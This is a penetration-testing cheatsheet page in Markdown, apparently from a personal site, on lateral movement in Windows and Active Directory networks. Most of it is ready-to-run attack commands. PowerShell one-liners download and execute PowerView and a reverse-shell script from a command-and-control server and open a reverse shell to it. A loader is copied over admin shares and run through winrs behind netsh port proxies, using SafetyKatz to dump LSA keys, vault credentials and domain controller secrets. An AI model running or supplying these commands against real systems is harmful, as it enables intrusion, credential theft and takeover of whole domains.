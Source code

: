 ```yaml
---
layout: post
title: move / rshell
category: 05-move
parent: cheatsheets
modified_date: 2024-11-28
permalink: /move/rshell
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [load](#load)
	* [load-c2agent](#load-c2agent)
	* [load-powersploit](#load-powersploit)
	* [load-rshell](#load-rshell)
	* [load-rubeus](#load-rubeus)
* [run](#run)
	* [evasion-amsi](#evasion-amsi)
	* [privesc](#privesc)
	* [discov-ad-iter](#discov-ad-iter)
	* [creds-dump](#creds-dump)
* [pivot](#pivot)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)

## <a name='load'></a>load

### <a name='load-c2agent'></a>load-c2agent

* [havoc-framework](https://havocframework.com/docs/welcome)

### <a name='load-powersploit'></a>load-powersploit
* [discov/ad#load-powersploit](/discov/ad#load-powersploit)
```sh
iex ($zc2srv_ip="")
iex ((New-Object Net.WebClient).DownloadString("http://${zc2srv_ip}/PowerView.ps1"))
```

### <a name='load-rshell'></a>load-rshell
* [samratashok/nishang](https://github.com/samratashok/nishang/tree/master/Shells)
* [shell-storm](https://shell-storm.org/shellcode/index.html)

```sh
# python
python -c 'import pty; pty.spawn("/bin/bash")'

# powershell
powershell.exe iex (iwr http://${zc2srv_ip}/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress ${zc2srv_ip} -Port 443
```

### <a name='load-rubeus'></a>load-rubeus
* [creds/krb#load-rubeus](/creds/krb#load-rubeus)

## <a name='run'></a>run

### <a name='evasion-amsi'></a>evasion-amsi

* [evasion/win#amsi](/evasion/win#amsi)

### <a name='privesc'></a>privesc

* [privesc/win#load-privescCheck](/privesc/win#load-privescCheck)
* [privesc/win#load-powerup](/privesc/win#load-powerup)

### <a name='discov-ad-iter'></a>discov-ad-iter

* [discov/ad#run-shadowhound](/discov/ad#run-shadowhound)
* [discov/ad#run-sharphound](/discov/ad#run-sharphound)
* [discov/ad#iter](/discov/ad#iter)

### <a name='creds-dump'></a>creds-dump

* [creds/krb](/creds/krb)

## <a name='pivot'></a>pivot
### <a name='pivot'></a>loader-4-proxified-payload

```sh
#$zloader="Loader.exe"
#$zc2srv_ip="172.16.100.83"  
#$zpayload="SafetyKatz.exe"
#$zpayload="PowerUp.ps1"
iwr http://${zc2srv_ip}/${zloader} -OutFile C:\User\Public\${zloader}

# $ztarg_computer_name=""
echo Y | xcopy C:\Users\Public\${zloader} \\${ztarg_computer_name}\C$\Users\Public\${zloader}
$null | winrs -r:${ztarg_computer_name} "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
$null | winrs -r:${ztarg_computer_name} "cmd /c C:\Users\Public\${zloader} -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
$null | winrs -r:${ztarg_computer_name} 'cmd /c C:\Users\Public\${zloader} -path http://127.0.0.1:8080/SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"' 

# $ztarg_nexthop_name=""
echo Y | xcopy C:\Users\Public\${zloader} \\${ztarg_nexthop_name}\C$\Users\Public\${zloader}
$null | winrs -r:${ztarg_nexthop_name} "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
$null | winrs -r:${ztarg_nexthop_name} "cmd /c C:\Users\Public\${zloader} -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
$null | winrs -r:${ztarg_nexthop_name} 'cmd /c C:\Users\Public\${zloader} -path http://127.0.0.1:8080/SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"' 

# $ztarg_computer_name IS a DC
$null | winrs -r:${ztarg_computer_name} 'cmd /c C:\Users\Public\${zloader} -path http://127.0.0.1:8080/SafetyKatz.exe "lsadump::evasive-lsa /patch" "exit"' 
```

